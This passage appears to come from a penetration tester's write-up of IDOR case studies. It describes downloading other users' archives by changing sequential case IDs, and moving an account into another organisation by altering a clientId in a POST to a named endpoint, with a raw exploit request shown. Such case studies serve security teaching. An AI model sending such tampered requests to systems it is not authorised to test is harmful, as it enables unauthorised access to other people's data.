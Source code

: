### Impact:

The IDOR vulnerability allowed users to download zip archives using sequential case IDs. By altering the case ID in the download request, attackers could access other users' confidential data. This breach exposed sensitive information, risking legal consequences, reputational damage, and financial losses for both the organisation and affected individuals. This incident underscores the necessity of robust access controls and input validation to prevent unauthorised data access and maintain user trust.

## Case Study 3: Organisation Takeover, Transferring user to another organisation

One of the biggest Fintech Corp we worked for deployed a widely-used collaboration platform that allows users to manage and share documents, projects, and resources across different organisations. Users are assigned to organisations, each having specific roles and permissions. Alice and Bob are two users on the platform, belonging to different organisations. Alice is a team lead at "OrgA," while Bob is an administrator at "OrgB."

The platform had an inherent flaw in its access control mechanism. Users' access to resources was determined based on the unique identification numbers associated with their organisations, which were sequentially generated. Unfortunately, this design flaw allowed threat actors to exploit IDOR vulnerabilities, where a simple manipulation of the unique IDs could grant unauthorised access to resources.

We identified a _**clientId**_ parameter within a POST request initiated to `/api/user/userUpdateManagement` endpoint. The parameter exposes an insecure direct object reference. This flaw allows a user to manipulate the _**clientId**_ and substitute it with the _**clientId**_ of a different organisation. Exploiting this, a threat actor could move their account to any other organisation, thus gaining access to a completely different organisation.

**Request:**

```http
POST /api/user/userUpdateManagement HTTP/2  
Host: <REDACTED> 
Accept: application/json, text/javascript, */*; q=0.01  
Content-Type: application/json  
Authorization: Bearer <LOWEST PRIVILEGED USER's TOKEN>  
Content-Length: 1652  
Origin: https://redacted.co.uk
Referer: https://redacted.co.uk

{  
  "errors": [],  
  "warnings": [],   
  "Password": "REDACTED",    
  "deleted": false,  
  "name": "Punit",  
  "emailAddress": "punit@redacted.co.uk",  
  "username": "PenTest9",  
  "firstName": "Punit",  
  "middleName": null,  
  "lastName": null,  
  "clientId": 5646,  
  "setInactive": false,  
  "id": 63891,  
  "created": "2022-03-28T14:21:24.257",  
  "modified": "2023-05-12T14:49:00.003",  
  "latestInviteTimeStamp": "2023-05-05T15:43:15.367",  
  "accessAreas": 1,  
  "createdUser": {  
    "name": "Sys Admin",  
    "id": 63887  
  },  
  "modifiedUser": {  
```